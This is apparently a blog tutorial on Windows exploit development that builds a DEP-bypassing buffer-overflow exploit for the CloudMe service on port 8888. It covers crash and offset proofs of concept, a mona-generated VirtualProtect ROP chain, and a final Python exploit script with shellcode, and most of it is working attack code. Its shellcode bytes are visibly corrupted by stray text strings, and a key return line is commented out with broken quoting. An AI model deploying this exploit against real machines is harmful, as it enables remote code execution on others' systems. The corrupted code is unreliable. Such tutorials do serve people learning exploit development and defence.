




Windows Exploit Development Part VI ROP
Posted By: T3jv1l 28/2/2019 .
Hello everyone. Today i will speek about Windows Exploit Development Return Oriented Programming. In this tutorial we try to exploit again the first software at this series.
This technique called Return Orient Programing(ROP) is used for bypassed Data Execution Protetion(DEP).What is DEP? DEP is a technique and a mechanism to avoid attacks such as attack Buffer Overflow , Heap Exploatation etc .. and it is possible to configure one of the four ways:
1) OptIn: Enabling DEP protection for Windows programs and services essential.
2) OptOut: Enables DEP protection for all programs and services, except those that are selected by the exception list.
3) AlwaysOn: Enables DEP protection for all programs and services without exceptions. "AlwaysOn" can not be disabled.
4) AlwaysOff: Protect DEP for all (inactive programs / services).
This technique uses Windows API to bypass this protection. These API's are:
VirtualProtect () ---- This function will change the access and protection level of a certain memory page allowing signaling and location in the case where shellcode is executable.
WriteProcessMemory () ---- Allow to copy shellcode to memory location, to move the execution. The location will again place the shellcode where it should be writable / executable.
NtSetInformationProcess () ---- It allows us to change DEP Policy protection for the current process to be able to perform the final analysis of the shell code of Stack.
SetProcessDEPPolicy () ---- This allows us to change DEP Policy protection for the current process to be able to perform the final analysis of the shell code of Stack. (If you can see is similar with NtSetInformationProcess ()).
I think that is enough with the explanations, you can find much more on the Corelan Blog. But keep in mind , at this exploit we will use ASLR enabled module!!!!!!
Now let's enable DEP. Going to Control Panel > System and Security > System then clicking on Advanced system settings, click on Settings and go to the Data Execution Prevention tab to select "Turn on DEP for all programs and services except those" and restart your VM to ensure DEP is turned on.

Now is turn for create a POC for CloudMe software.
import socket
target="127.0.0.1"
junk="A"*4000
payload=junk
try:
s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((target,8888))
s.send(payload)
except:
print "Don't Crash Me !"
Great we have EIP overwrite that is good!! Now we need to found offset.
!mona pc 4000
!mona po 316A4230 -- 1052 offset
import socket
target="127.0.0.1"
buffer=4000
junk1="A"*1052
shellcode="\xCC"*200
exploit=junk1+shellcode
fill="\x43"* (buffer-len(exploit))
payload=exploit+fill
try:
s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((target,8888))
s.send(payload)
except:
print "Don't Crash Me !"
Now is turn for ROP chain.So first, let’s establish what we need to put into what registers to get VirtualProtect() to complete successfully. We need to have:
1)lpAddress: A pointer to an address that describes the starting page of the region of pages whose access protection attributes are to be changed.
2)dwSize: The size of the region whose access protection attributes are to be changed, in bytes.
3)flNewProtect: The memory protection option. This parameter can be one of the memory protection constants.
4)lpflOldProtect: A pointer to a variable that receives the previous access protection value of the first page in the specified region of pages. If this parameter is NULL or does not point to a valid variable, the function fails.
--------------------------------------------
Register setup for VirtualProtect() :
--------------------------------------------
EAX = NOP (0x90909090)
ECX = lpOldProtect (ptr to W address)
EDX = NewProtect (0x40)
EBX = dwSize
ESP = lPAddress (automatic)
EBP = ReturnTo (ptr to jmp esp)
ESI = ptr to VirtualProtect()
EDI = ROP NOP (RETN)
--------------------------------------------To generate a list of usable gadgets from our chosen modules, you can use the following command in Mona:
!mona rop -m Qt5Core.dll -cpb '\x00'# rop chain generated with mona.py - www.corelan.be
0x61ba8b5e, # POP EAX # RETN [Qt5Gui.dll]
0x690398a8, # ptr to &VirtualProtect() [IAT Qt5Core.dll]
0x61bdd7f5, # MOV EAX,DWORD PTR DS:[EAX] # RETN [Qt5Gui.dll]
0x68aef542, # XCHG EAX,ESI # RETN [Qt5Core.dll]
0x68bfe66b, # POP EBP # RETN [Qt5Core.dll]
0x68f82223, # & jmp esp [Qt5Core.dll]
0x6d9f7736, # POP EDX # RETN [Qt5Sql.dll]
0xfffffdff, # Value to negate, will become 0x00000201
0x6eb47092, # NEG EDX # RETN [libgcc_s_dw2-1.dll]
0x61e870e0, # POP EBX # RETN [Qt5Gui.dll]
0xffffffff, #
0x6204f463, # INC EBX # RETN [Qt5Gui.dll]
0x68f8063c, # ADD EBX,EDX # ADD AL,0A # RETN [Qt5Core.dll]
0x61ec44ae, # POP EDX # RETN [Qt5Gui.dll]
0xffffffc0, # Value to negate, will become 0x00000040
0x6eb47092, # NEG EDX # RETN [libgcc_s_dw2-1.dll]
0x61e2a807, # POP ECX # RETN [Qt5Gui.dll]
0x6eb573c9, # &Writable location [libgcc_s_dw2-1.dll]
0x61e85d66, # POP EDI # RETN [Qt5Gui.dll]
0x6d9e431c, # RETN (ROP NOP) [Qt5Sql.dll]
0x61ba8ce5, # POP EAX # RETN [Qt5Gui.dll]
0x90909090, # nop
0x61b6b8d0, # PUSHAD # RETN [Qt5Gui.dll]Now is turn for a final POC.
import socket
import struct
def create_rop_chain():
# rop chain generated with mona.py - www.corelan.be
rop_gadgets = [
0x61ba8b5e, # POP EAX # RETN [Qt5Gui.dll]
0x690398a8, # ptr to &VirtualProtect() [IAT Qt5Core.dll]
0x61bdd7f5, # MOV EAX,DWORD PTR DS:[EAX] # RETN [Qt5Gui.dll]
0x68aef542, # XCHG EAX,ESI # RETN [Qt5Core.dll]
0x68bfe66b, # POP EBP # RETN [Qt5Core.dll]
0x68f82223, # & jmp esp [Qt5Core.dll]
0x6d9f7736, # POP EDX # RETN [Qt5Sql.dll]
0xfffffdff, # Value to negate, will become 0x00000201
0x6eb47092, # NEG EDX # RETN [libgcc_s_dw2-1.dll]
0x61e870e0, # POP EBX # RETN [Qt5Gui.dll]
0xffffffff, #
0x6204f463, # INC EBX # RETN [Qt5Gui.dll]
0x68f8063c, # ADD EBX,EDX # ADD AL,0A # RETN [Qt5Core.dll]
0x61ec44ae, # POP EDX # RETN [Qt5Gui.dll]
0xffffffc0, # Value to negate, will become 0x00000040
0x6eb47092, # NEG EDX # RETN [libgcc_s_dw2-1.dll]
0x61e2a807, # POP ECX # RETN [Qt5Gui.dll]
0x6eb573c9, # &Writable location [libgcc_s_dw2-1.dll]
0x61e85d66, # POP EDI # RETN [Qt5Gui.dll]
0x6d9e431c, # RETN (ROP NOP) [Qt5Sql.dll]
0x61ba8ce5, # POP EAX # RETN [Qt5Gui.dll]
0x90909090, # nop
0x61b6b8d0, # PUSHAD # RETN [Qt5Gui.dll]
]
#return ''.join(struct.pack('<'I', _) for _ in rop_gadgets)## add this here and remove one ''!!
target="127.0.0.1"
buffer=4000
rop_chain = create_rop_chain()
junk1="A"*1052
nop="\x90"*24
buf = ""
buf +="\xba\xd5\x31\x08\x1FFRitFm5rP5oY5aeTeDikpQiWRz278L45\xc9\xb1"
buf +="\x33\x83\xc3\x04\x31\x53\x0e\x03\x86\x3f\xea\xcd\xd4\xa8\x63"
buf +="\x2d\x24\x29\x14\xa7\xc1\x18\x06\xd3\x82\x09\x96\x97\xc6\xa1"
buf +="\x5d\xf5\xf2\x32\x13\xd2\xf5\xf3\x9e\x04\x38\x03\x2f\x89\x96"
buf +="\xc7\x1FFRitFm5rLQihCFPSNPkwLNBTbVZHUAnYc5iRYaWz9em1\x81\x5a"
buf +="\x12\x30\x36\xee\x66\x89\x37\x20\xed\xb1\x4f\x45\x31\x45\xfa"
buf +="\x44\x61\xf6\x71\x0e\x99\x7c\xdd\xaf\x98\x51\x3d\x93\xd3\xde"
buf +="\xf6\x67\xe2\x1FFRitFm5rLQihCFPSNPkwLNBTbVZHUAnYc5iRYaWz9emc"
buf +="\x64\xa3\x0b\x1f\x1FFRitFm5rP5oY5aeTeDikpQiWRz278L45\xe2\x36"
buf +="\xf5\x42\x74\xbc\xf9\x2f\xf2\x9a\x1d\xb1\xd7\x90\x19\x3a\xd6"
buf +="\x76\xa8\x78\xfd\x52\xf1\xdb\x9c\xc3\x5f\x8d\xa1\x14\x07\x72"
buf +="\x04\x5e\xa5\x67\x3e\x3d\xa3\x76\xb2\x3b\x8a\x79\xcc\x43\xbc"
buf +="\x11\xfd\xc8\x53\x65\x02\x1b\x10\x99\x48\x06\x30\x32\x15\xd2"
buf +="\x01\x5f\xa6\x08\x45\x66\x25\xb9\x35\x9d\x35\xc8\x30\xd9\xf1"
buf +="\x20\x48\x72\x94\x46\xff\x73\xbd\x24\x9e\xe7\x5d\x85\x05\x80"
buf +="\xc4\xd9"
exploit=junk1+rop_chain+nop+buf
fill="\x43"* (buffer-len(exploit))
payload=exploit+fill
try:
s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((target,8888))
s.send(payload)
except:
print "Don't Crash Me !"Short video with result at this exploit #Windows Exploit Development ROP#
I hope you like this article about Windows Exploit Development and sorry for my bad English , i am not a native speaker (Happy Hack)
References!!